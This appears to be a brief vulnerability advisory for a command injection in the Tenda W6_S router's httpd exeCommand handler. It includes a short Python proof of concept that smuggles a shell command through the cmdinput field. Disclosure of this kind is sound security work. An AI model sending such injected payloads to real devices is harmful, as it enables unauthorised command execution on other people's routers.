


# command injection

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a command injection in httpd/formexeCommand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:




get value from cmdinput



then pass to tpi_get_ping_output, split the string and call popen, cause command execution 

## POC
```
url = "http://192.168.1.13/goform/exeCommand"
payload = 'asd;ls  > ./tmp/hack;aa'

r = requests.post(url, data={'cmdinput': payload})
``` 
